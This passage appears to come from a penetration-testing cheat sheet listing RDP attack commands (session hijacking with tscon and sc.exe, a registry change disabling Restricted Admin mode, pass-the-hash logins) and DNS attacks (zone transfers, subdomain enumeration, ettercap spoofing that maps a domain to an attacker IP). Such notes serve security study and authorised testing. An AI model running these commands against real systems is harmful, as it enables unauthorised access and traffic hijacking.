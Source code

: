 - rdesktop -u USER -p PASS $TARGET

- Impersonate (within in the target)
  - tscon.exe $TARGET_SESSION_ID /dest:$CURRENT_SESSIONS
  - sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
  - net start sessionhijack

- Basic login
  - Disable restrcited admin mode: 
    -  reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
  - xfreerdp /f /u:USERNAME /p:PASSWORD /v:HOST[:PORT]
  - xfreerdp /v:IP /u:USERNAME /p:123456 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
    - hash: /pth:HASH

- Mount local folder:
  - xfreerdp /u:admin /p:password /cert:ignore /v:10.10.134.246 /workarea /drive:/home/bruno/git/tomnt +drives 
  
- Vuln:
  - [CVE-2019-0708 - BlueKeep](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)

### DNS - 53
- Tactic
  - find all records
  - zone transfer
- UDP/53, TCP/53
- Zone transfer
  - copy portion of db to another server (tcp)
  - dig axfr @dc01.name.local name.local
    - dig axfr @target.local sub.location.local
  - fierce --domain name.local
- (Sub)Domain take over
  - register non-existing to take control of aother
  - [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz) 
- Enum subdomain
  - [subdomainfinder](https://github.com/projectdiscovery/subfinder)
    - subdomainfinder -d domain.local -v
    - API key
  - [subbrute](https://github.com/TheRook/subbrute)
    - subbrute domain.local -s wordlist -r resolver
      - -s list of subdomais
      - -r resolver.txt
- Spoofing/Cache poisoning
  - change legite dns record with false info => redirect traffic
- Local cache poisoning
  - ettercap
    - edit /etc/ettercap/etter.dns => map target domain

```
legit.domain      A   Attacker_IP
*.legit.domain    A   Attacker_IP
```
    - Start ettercap
      - Hosts > Scan for Hosts
      - add: Target_IP Target1 + Default_gateway Target2
      - dns_spoof: activate = Plugins > Manage Plugins
  - bettercap
  - [dnsrecon](https://securitytrails.com/blog/dnsrecon-tool)
    - dns -d domain.local -D wordlist.txt -t brt/std/zonewalk/axfr
